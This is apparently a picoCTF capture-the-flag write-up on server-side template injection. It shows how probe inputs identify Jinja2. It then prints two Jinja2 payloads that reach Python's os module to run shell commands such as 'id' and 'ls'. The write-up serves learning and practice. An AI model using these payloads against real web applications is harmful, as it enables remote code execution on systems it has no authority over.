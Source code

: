 Challenge link: [https://play.picoctf.org/practice/challenge/492](https://play.picoctf.org/practice/challenge/492)

### Solution

- Open the site and explore the functionality keeping the title and description in Mind.
- As the title is hinting us with Server-Side template Injection, try injecting the common payloads to test whether it is true or not.

> You can have this _images\image as a mindmap to find what template is being used furtherly.
> 

![Source: [Portswigger](https://portswigger.net/research/server-side-template-injection)](_images\screen-shot-2015-07-20-at-09-21-56.png)

Source: [Portswigger](https://portswigger.net/research/server-side-template-injection)

- For a highlevel idea on what is SSTI and how to identify, follow that portswigger guide.
    - Try `${7*7}` → `${7*7}`
    - for `{{7*7}}`  → `49`
    - for `{{7*'7'}}` → `7777777`

So, this confirms that the template that is being used is JINJA2.

Now, check whether we have are getting blocked by 

```python
{{ request.application.__self__._TemplateReference__context.cycler.__init__.__globals__.os.system("id") }}

```

If the output comes, then 

Googled that template specific payloads and found this

```python
{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}
```
